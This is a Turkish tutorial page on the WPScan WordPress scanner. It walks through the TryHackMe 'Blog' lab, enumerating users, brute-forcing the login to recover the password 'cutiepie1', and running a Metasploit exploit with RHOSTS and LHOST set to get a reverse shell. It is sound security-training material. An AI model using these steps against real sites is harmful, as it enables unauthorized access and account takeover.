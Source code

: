 # Wpscan

<figure><img src="../.gitbook/assets/wpscan_logo.png" alt=""><figcaption></figcaption></figure>

Wpscan açık kaynak kodlu geliştirilmiş ve terminalde çalıştırılan bir araçtır. WordPress kullanan sitelerde tarama yapmak için kullanılır.

WordPress siteleri hakkında temel bilgileri ve varsa güvenlik zafiyetleri hakkında bilgi verir. Kali Lİnux üzerinde yüklü olarak gelir.&#x20;

Biraz Wpscan aracının yapabildiklerinden bahsedelim:

* Tema taraması
* Eklenti taraması
* Brute Force
* Dizin taraması vb.

Eğer başka bir dağıtım kullanıyorsanız aşşağıdaki kod ile Wpscan aracınızı indirebilirsiniz.

```
gem install wpscan
```

Aracımızın sahip olduğu parametreleri görmek için şu komutu kullanıyoruz:

```
wpscan -h
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Bir web sitesi üzerinde tarama gerçekleştireceğimiz için bir url parametresine ihtiyacımız var. `--url` parametresiyle test edeceğimiz web sitesini parametre olarak veriyoruz.

Ayrıca aracın hangi türde bir tarama yapacağından bahsetmemiz lazım bunun içinde `--enumerate` parametresini kullanıyoruz.

\--enumerate parametresiyle seçenekler vermemiz lazım:

* t : Popüler temaları tarar
* vt : Zafiyetli temaları tarar
* p : Popüler eklentileri tarar
* vp : Zafiyetli eklentileri tarar
* ap : Bütün eklentileri tarar

Verilen --url parametresine göre popüler temaları tarar:

```
wpscan --url <ip/url> --enumerate t
```

\-vt parametresiyle zafiyetli temaları tarar:

```
wpscan --url <ip/url> --enumerate vt
```

\-p parametresiyle popüler eklentileri tarar:

```
wpscan --url <ip/url> --enumerate p
```

\-vp parametresiyle zafiyetli eklentileri tarar:

```
wpscan --url <ip/url> --enumerate vp
```

\-at parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate at
```

\-ap parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate ap
```

Wpscan aracımızı daha iyi tanımak ve kullanabilmek için [Try Hack Me Blog](https://tryhackme.com/r/room/blog) odasında kullanacağım. Öncelikle web sitemizi çalıştırıyoruz. Öncelikle Try Hack Me tarafından bana verilen Ip adresini /etc/hosts altındaki dosyaya ekliyorum.

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Sonrasında tarayıcımdan blog.thm adresine gidiyorum. Ve sitede gezinirken en alt tarafta sitenin WordPress ile geliştirildiğine dair bir yazı yer alıyor.

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Wpscan aracımız ile site üzerinde tarama yapabiliriz. Öncelikle zafiyetli eklentiler için bir tarama yapalım bunun için şu komutu yazıyoruz:

```
wpscan --url blog.thm --enumerate vp
```

Bu sorgunun sonucu olarak yararlı bir şey çıkmıyor. Var olan kullanıcıları listeleyeim ve sonrasında brute force deneyelim.&#x20;

```
wpscan --url blog.thm --enumerate u
```

Bu işlemden sonra karşımıza şöyle bir sonuç çıkıyor.

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

2 tane kullanıcımız var Karen Wheeler ve Bill Joel. Bunların kullanıcı adları sırasıyla kwhell ve bjoel. Kullanıcı adlarını bulduğumuza göre login ekranına brute force deneyelim. Öncelikle kwhell kullanıcısı için bir komut yazacağım. Eğer şifreyi bulamazsak bjoel kullanıcısı içinde bir komut yazacağım.&#x20;

```
wpscan --url blog.thm --usernames kwheel --passwords <sifre.txt>
```

Bu işlem sonucunda geçerli bir şifre elde ediyoruz.

<figure><img src="../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

`kwheel - cutiepie1` bu bilgiler ile giriş yapalım ve bakalım sonrasında neler yapabiliyoruz.&#x20;

<figure><img src="../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

Giriş yaptıktan sonra karşımıza ektra bir şey çıkmıyor. Web sitesi özelinde temel işle yapabiliyoruz. Bizim sunucuda olan dosyalarla işimiz var. WordPress'in eski sürümlerinde zafiyet olabilir ve biz bu zafiyeti kullanabiliriz. Zafiyetleri görmek için yukarıda yaptığımız `wpscan --url blog.thm --enumerate vp` komutundan biraz daha farklı bir şey yazacağız. Yukarıdaki gibi bir komut yazarsak Wpscan bize zafiyetleri göstermiyor.&#x20;

Bize zafiyetleri göstermesini istiyorsak [Wpscan](https://wpscan.com/profile/) adresinden bize sağlanan token değerini parametre olarak vermemiz gerekiyor.&#x20;

```
wpscan --url blog.thm --enumerate vp --api-token <token>
```

Bu kod sonrasında sistemden şöyle bir çıktı almamız sağlar.&#x20;

<figure><img src="../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Çıktı olarak 70 tane zafiyetin olduğunu gösteriyor. WordPress sürümünü de öğrendikten sonra msfconsole üzerinden zafiyet araması yapabiliriz.

<figure><img src="../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Karşımızı bu sonuçlar çıkıyor. `use 0` diyerek payloadımı seçiyorum. Sonrasında payloadın bize sunduğu ayarları görmek için `show options` diyorum.&#x20;

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Sırasıyla şu ayarlamaları yapıyorum.&#x20;

<pre><code>set PASSWORD cutiepie1
<strong>set RHOSTS 10.10.154.220 // THM odasının çalıştığı IP adresini veriyoruz
</strong>set USERNAME kwheel
set LHOST 10.6.63.226  // THM odasına bağlandığımız IP adresi
run
</code></pre>

Run komutuyla birlikte exploitimiz çalışmaya başlıyor. Buradaki amacımız var olan bir zafiyeti sömürerek shell almaya çalışıyoruz.

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

Ve evet shell aldık, sistem üzerinde komutlar çalıştırabiliyoruz.&#x20;
